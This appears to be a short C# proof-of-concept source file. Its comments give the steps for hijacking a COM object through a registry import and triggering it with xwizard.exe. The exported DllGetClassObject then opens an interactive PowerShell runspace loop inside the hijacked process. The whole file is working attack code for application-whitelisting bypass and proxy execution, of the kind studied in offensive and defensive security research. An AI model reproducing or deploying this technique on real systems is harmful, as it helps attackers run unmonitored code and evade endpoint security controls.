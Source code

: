 //1. hijack a com object e.g reg.exe IMPORT com_hijack.reg
//2. run xwizard.exe RunWizard {97d47d56-3777-49fb-8e8f-90d7e30e1a1e}

using System;
using System.Runtime.InteropServices;
using RGiesecke.DllExport;
using System.Collections.ObjectModel;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Text;

    public class Test
    {
//Based on Casey Smiths's Work
    [DllExport("DllGetClassObject", CallingConvention = CallingConvention.StdCall)]
    public static bool DllGetClassObject()
     {
      while (true)
        {
            AllocConsole();
            IntPtr defaultStdout = new IntPtr(7);
            IntPtr currentStdout = GetStdHandle(StdOutputHandle);
            Console.Write("PS >");
            string x = Console.ReadLine();
            try
            {
                Console.WriteLine(RunPSCommand(x));
            }
            catch (Exception e)
            {
                Console.WriteLine(e.Message);
            }
        }
        return true;
    }
    //Based on Jared Atkinson's And Justin Warner's Work
    public static string RunPSCommand(string cmd)
        {
            //Init stuff
            Runspace runspace = RunspaceFactory.CreateRunspace();
            runspace.Open();
            RunspaceInvoke scriptInvoker = new RunspaceInvoke(runspace);
            Pipeline pipeline = runspace.CreatePipeline();

            //Add commands
            pipeline.Commands.AddScript(cmd);

            //Prep PS for string output and invoke
            pipeline.Commands.Add("Out-String");
            Collection<PSObject> results = pipeline.Invoke();
            runspace.Close();

            //Convert records to strings
            StringBuilder stringBuilder = new StringBuilder();
            foreach (PSObject obj in results)
            {
                stringBuilder.Append(obj);
            }
            return stringBuilder.ToString().Trim();
        }

        public static void RunPSFile(string script)
        {
            PowerShell ps = PowerShell.Create();
            ps.AddScript(script).Invoke();
        }

        private const UInt32 StdOutputHandle = 0xFFFFFFF5;
        [DllImport("kernel32.dll")]
        private static extern IntPtr GetStdHandle(UInt32 nStdHandle);
        [DllImport("kernel32.dll")]
        private static extern void SetStdHandle(UInt32 nStdHandle, IntPtr handle);
        [DllImport("kernel32")]
        static extern bool AllocConsole();

    }
